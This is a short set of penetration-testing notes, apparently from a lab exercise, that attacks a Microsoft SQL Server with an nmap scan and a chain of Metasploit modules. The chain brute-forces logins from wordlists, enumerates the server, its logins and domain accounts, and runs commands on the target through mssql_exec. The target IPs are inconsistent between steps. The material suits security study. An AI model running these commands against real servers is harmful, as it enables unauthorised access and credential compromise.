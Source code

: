 Running nmap ms-sql-info script to get more information about the target SQL Server
`nmap --script ms-sql-info -p1433 10.2.4.6`
Running msfconsole
`msfconsole -q`
>Running MSSQL Login Module
>msf6>`use auxiliary/scanner/mssql/mssql_login`
>msf6>`set RHOST 10.5.17.0`
>msf6>`set USER_FILE /root/Desktop/wordlist/common_users.txt`
>msf6>`set PASS_FILe /root/Desktop/wordlist/100-common-passwords.txt`
>msf6>`set VERBOSE false`
>msf6>`exploit`

Running MSSQL Enumeration Module
>msf6>`use auxiliary/admin/mssql/mssql_enum`
>msf6>`set RHOST 10.5.17.0`
>msf6>`exploit`

Running MSSQL User Enumeration Module
>msf6>`use auxiliary/admin/mssql/mssql_enum_sql_logins`
>msf6>`set RHOST 10.5.17.0`
>msf6>`exploit`

Executing a command on the target machine using MSSQL Exec Module
>msf6>`use auxiliary/admin/mssql/mssql_exec`
>msf6>`set RHOST 10.5.17.0`
>msf6>`set CMD whoami`
>msf6>`exploit`

Enumerating all target machine accounts
>msf6>`use auxiliary/admin/mssql/mssql_enum_domain_accounts`
>msf6>`set RHOST 10.5.17.0`
>msf6>`exploit`

